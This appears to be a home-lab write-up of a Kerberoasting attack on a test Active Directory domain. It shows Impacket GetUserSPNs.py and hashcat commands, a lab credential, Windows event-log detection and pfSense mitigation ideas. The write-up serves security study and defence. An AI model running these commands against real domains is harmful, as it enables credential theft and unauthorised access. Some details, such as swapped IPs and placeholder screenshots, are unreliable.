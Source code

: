 # Active Directory Attack Playbook (Kerberos-based SPN Extraction and Credential Compromise)

## **Overview**

- **Target:** Active Directory Domain Controller (within the soc.lab domain)
   - IP Address: 192.168.10.10
   - Domain: SOC.LAB
   - 
- **Attacker:** Kali 
   - IP Address: 192.168.20.30
## **Objective** 
The objective of this attack was to enumerate and extract Service Principal Names (SPNs) from the Active Directory environment and attempt to crack the Kerberos TGS hashes to gain unauthorized access to domain accounts.
Following the other attacks, we are already know the credentials from an User and the Active Directory Domain.

## Attack Execution Timeline:

- Checked that Kerberos (port 88) is open:
```bash
nc -vz 192.168.10.10 88
```
- Update the default DNS ip to point directly to the Domain Controller.

- Run GetUserSPNs.py from the mpacket toolkit to request SPNs and attempt Kerberos TGS hash extraction:
```bash
python3 GetUserSPNs.py SOC.LAB/labadmin:Root1234! -request
```
Output:

![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

- After that I cracked the Kerberos TGS Hash using hashcat with rockyou.txt, and saved on a cracked.txt file:
```bash
hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt --force -o cracked.txt
```



## **Monitoring Windows Logs**

I started watching Sysmon Logs Analysis and identified multiple Event ID 3 entries in Sysmon logs, which makes it suspisious, knowing its coming from the same IP, and from external zone (DMZ): 

- All connections originated from IP 192.168.10.10, targeting 192.168.20.30.

- Different ephemeral ports were used, suggesting automated scanning or even communication.

![multipleSysmonlogs](https://github.com/user-attachments/assets/01ab753c-f8f0-42d1-8882-62f2a652937a)



With that, I went through Windows Logs Security, and found multiple found a large number of **Event ID 4769 – Kerberos Service Ticket Request**, from the same source as well:
- ![kerberos_tickets](https://github.com/user-attachments/assets/9275278e-067c-466c-a2bd-3fc551e18f81)


And as we can see in the screenshots bellow from the logs, the same IP: 192.168.20.30 requested multiple Kerberos Service Tickets (Event ID 4769) for various user accounts in the SOC.LAB domain. This pattern of activity suggests the use of a **Kerberoasting attack**, where the attacker queries the Service Principal Names (SPNs) associated with these accounts to obtain encrypted TGS (Ticket Granting Service) hashes, which we already know he did.

- User Jordan:
- ![Jordan](https://github.com/user-attachments/assets/4aab463d-1130-48ea-affc-d23800dd389f)

- User Candace:
- ![candace_rojas](https://github.com/user-attachments/assets/0fa652ef-089b-4bde-97b4-280412b502bf)

And finally, right after the last Kerberos Service Ticket Request, we see an Event ID 4634 – Logoff, from the user labadmin, so with that, we know whose password was first compromised to successfully request all this content.

## **Firewall Rules on pfSense to Mitigate this:**
1- Block Unauthorized Kerberos Requests:
  Screenshot da rule no pfsense....

  This rule blocks any Kerberos traffic (port 88) from devices that are not domain controllers, which prevents unauthorized users from interacting with the Kerberos service and reduces the risk of Kerberoasting.

2- Limit External and Internal LDAP Queries:

Screenshot da rule.......

This prevents attackers from using LDAP enumeration tools (like GetUserSPNs.py), a well knowed script, to extract Service Principal Names. LDAP is only needed for trusted systems—blocking it for regular users reduces exposure, like we've just seen.

Note: In this experiment, CrowdSec was disabled to allow this action to proceed.
